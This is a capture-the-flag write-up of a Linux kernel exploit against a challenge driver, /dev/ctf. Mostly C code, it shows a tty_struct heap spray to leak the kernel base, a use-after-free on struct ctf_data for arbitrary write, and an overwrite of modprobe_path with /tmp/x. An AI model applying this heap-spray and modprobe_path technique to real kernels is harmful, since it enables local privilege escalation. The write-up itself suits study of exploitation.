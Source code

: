 First we need to leak kernel text base address. We spray a lot of `struct tty_struct` to make kernel heap contain lots of `tty_operations` data, which includes lots of kernel address.

```C
for(int i=0;i<0x100;i++)
    fd[i] = open(ptmx,2);
for(int i=0;i<0x100;i++)
    close(fd[i]);
```

Then we can use `ctf_ioctl` to allocate the heap buffer with the same size as `struct tty_struct`, letting us able to get those kernel address with `ctf_read`.

```cpp
int ctf = open("/dev/ctf",2);
ioctl(ctf,1337,0x2c0); // allocate heap size same as tty_struct
char buf[0x100];
read(ctf,buf,0x100); // leak kernel base address
size_t* p = (size_t*)buf;
size_t kaddr = p[3] - 0x20745e0;
```

With the kernel address, our next step is to achieve kernel address arbitrary write. We can use the internal data structure `struct ctf_data` to achieve this. We first allocate a buffer which size is same as `struct ctf_data` and free it. Then, we spray a lot of `struct ctf_data` to make it allocate the buffer we just freed. We then can modify `struct ctf_data` from another file descriptor with `ctf_write`.

```cpp
ioctl(ctf,1338,0x0);
// Allocate buffer size same as ctf_data, then free it. 
// We later use ctf_write on this buffer to modify struct ctf_data
ioctl(ctf,1337,0x10);
ioctl(ctf,1338,0x0);
// spray lots of struct ctf_data
// one of them will use the heap buffer we just freed
for(int i=0;i<0x100;i++){
    fd[i] = open(ctfpath, 2); // open /dev/ctf
}
// for scanning usage
for(int i=0;i<0x100;i++){
    ioctl(fd[i],1337,0x100*(i+1));
}
```

Once we can fully control a `struct ctf_data`, we can just modify `mem` and `size` to achieve kernel address arbitrary write. We choose to modify `modprobe_path` to achieve local privilege escalation.

```cpp
// Get the fd of our victim ctf_data
read(ctf,buf,0x10);
int idx = p[1]/0x100-1;
// Modify the ctf_data structure
// mem pointer will become modprobe_path
size_t payload[] = {kaddr+0x244DD40,0x100};
write(ctf,payload,0x10);
// Overwrite modprobe_path
char path[] = "/tmp/x";
write(fd[idx],path,sizeof(path));
```
